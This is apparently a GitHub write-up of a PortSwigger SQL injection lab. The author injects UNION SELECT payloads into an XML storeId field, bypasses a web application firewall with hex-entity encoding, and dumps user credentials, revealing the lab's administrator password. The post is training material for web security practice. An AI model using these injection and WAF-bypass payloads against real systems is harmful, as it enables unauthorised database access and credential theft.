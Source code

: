 # Hi hackers, Today we will play this [LAB](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-in-different-contexts/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)

Let's go discover our website:

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/37be3471-dbdf-4bb3-ab25-6d8493f67c64)


No there vulnerablity here.

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/2bcfe6a4-99a3-4325-8860-256a1b76f8dc)

Ok Here we can exploit ```Check Stock``` button.

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/ae0b97bc-ff0a-4672-b398-8a5392781b17)


Ok We can add our payload inside ```<storeId>```

```
<storeId>
  1 UNION SELECT NULL
</storeId>
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/8d523d84-0598-474d-8751-c0c63e4fcb00)


Hmmm WAF detected this attack :)

Ok Let's encoding this payload to bypass this fuck WAF :(

[Screencast from 2024-07-05 12:19:08 AM.webm](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/5d20fceb-584e-4d1e-bc10-b36cd454f427)

### WOoow we can exploit it . Let's go steal acccount of administrator , we will use this payload:


```
<storeId>
  <@hex_entities>
    1 UNION SELECT username||':'||password FROM users
  <@/hex_entities>
</storeId>
```


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/ccd347f7-f1ec-40d1-a7cd-c6b57f688727)


Woow We got on Account of admin is ```administrator:y5swfqstminpfg0rwhk0```





















